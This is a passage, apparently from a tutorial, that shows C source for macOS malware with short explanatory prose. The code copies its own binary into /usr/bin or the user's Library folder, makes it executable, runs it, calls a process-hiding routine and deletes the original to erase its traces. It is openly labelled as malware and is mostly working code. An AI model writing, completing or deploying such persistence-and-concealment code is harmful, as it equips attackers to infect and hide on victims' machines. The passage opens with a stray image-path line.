 ```c
        printf("Oops: Failed to set execute permission for %s\n", dest_path);
        exit(EXIT_FAILURE);
    }

    printf("Hey! File copied from %s to %s\n", source_path, dest_path);
}
```

The function reads data from the source file in chunks and writes it to the destination file until the entire file is copied. After copying, it sets execute permission for the copied binary using `chmod()` to make it executable.

```c
// Main function
int main(int argc, char *argv[]) {
    // Determine home directory
    const char *home_dir;
    struct passwd *pw = getpwuid(getuid());
    if (pw == NULL) {
        printf("Oops: Failed to get home directory\n");
        exit(EXIT_FAILURE);
    }
    home_dir = pw->pw_dir;

    // Construct malware path
    char home_malware_path[PATH_MAX_LENGTH];
    snprintf(home_malware_path, sizeof(home_malware_path), "%s/Library/%s", home_dir, MALWARE_NAME);

    // Check if we have root privileges
    if (geteuid() == 0) {
        // Attempt to copy malware to system directory
        const char *system_malware_path = "/usr/bin/" MALWARE_NAME;
        if (access(system_malware_path, F_OK) != 0) {
            copy_file(argv[0], system_malware_path);
            execute_malware(system_malware_path);
        }
    } else {
        // Attempt to copy malware to user's home directory
        if (access(home_malware_path, F_OK) != 0) {
            copy_file(argv[0], home_malware_path);
            greet_user();
        }
    }

    // Hide the process
    hide_process();

    // Vanish, Damn
    remove(argv[0]);

    return EXIT_SUCCESS;
}
```
